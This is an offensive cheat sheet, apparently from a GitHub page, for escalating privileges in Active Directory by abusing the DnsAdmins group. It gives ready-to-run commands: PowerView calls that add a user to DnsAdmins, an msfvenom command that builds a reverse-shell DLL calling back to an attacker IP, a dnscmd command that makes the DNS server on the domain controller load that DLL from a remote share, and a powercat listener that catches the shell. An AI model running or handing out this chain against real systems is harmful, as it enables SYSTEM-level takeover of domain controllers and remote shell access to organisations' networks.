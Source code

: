 ```powershell
Add-DomainGroupMember -Identity 'DnsAdmins' -Members 'student1'

Get-DomainGroupMember -SamAccountName 'DnsAdmins'
```

# Priv Esc- DNSAdmins
## Find the members in the DNSAdmin
```bash
. .\powerview.ps1
Get-DomainGroup -SamAccountName "DNSAdmin"
Get-DomainGroupMember -Name "DNSAdmin"
```

In this method, we load an arbitrary DLL with SYSTEM privileges on the DNS server. i.e., We will build a DLL which contains reverse tcp code and inject it into dns.exe process on the #victim’s DNS Server (DC). In case your work requires building a DLL which exports all necessary functions refer this post or this screenshot for building the DLL instead of msfvenom. You #can also use remote dll injector.

## Building the DLL using msfvenom:
```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f dll > privesc.dll
```

## Python HTTP Server
```bash
python -m http.server 80
```

## Injecting the DLL in dns.exe
`C:\Windows\system32\dnscmd.exe`

```bash
dnscmd testmachine.test.local /config /serverlevelplugindll \\192.168.43.100\share\privesc.dll
```

Normally we cannot check if the dll was added, as it requires Administrator privileges, but in our case we did have an admin account, so we can check using the following command, from DC

```bash
Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll
```

## Start Listening
```bash
. .\powercat.ps1
powercat -l -p 4444 -Verbose
```
